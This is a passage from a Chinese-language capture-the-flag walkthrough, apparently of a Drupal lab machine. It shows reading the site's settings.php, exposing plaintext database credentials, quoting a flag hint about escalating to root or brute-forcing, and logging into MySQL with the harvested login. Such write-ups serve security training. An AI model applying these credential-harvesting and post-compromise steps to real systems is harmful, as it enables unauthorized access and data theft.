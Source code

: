 >  
 Drupal的默认配置文件为 


```
/var/www/sites/default/settings.php

```

<img src="https://img-blog.csdnimg.cn/568777d70e1d4da9b92579d964dfacba.png" alt="在这里插入图片描述">

>  
 查看文件内容 


```
cat /var/www/sites/default/settings.php

```

>  
 发现了flag2和数据库的账号密码 


```
'database' =&gt; 'drupaldb',
      'username' =&gt; 'dbuser',
      'password' =&gt; 'R0ck3t',
      'host' =&gt; 'localhost',
      'port' =&gt; '',
      'driver' =&gt; 'mysql',
      'prefix' =&gt; '',

```

>  
 flag2提示，提升权限为root来查看敏感文件，或者直接爆破 


<img src="https://img-blog.csdnimg.cn/f3e4e2f6a7bb42bd959d916bb788a600.png" alt="在这里插入图片描述">

>  
 我们先进入数据库查看 


```
mysql -u dbuser -p

```

<img src="https://img-blog.csdnimg.cn/d015e625d6284812b252547397d603f0.png" alt="在这里插入图片描述">

>  
 查看数据库，切换到drupaldb数据库 


```
databases;
use drupaldb;

```
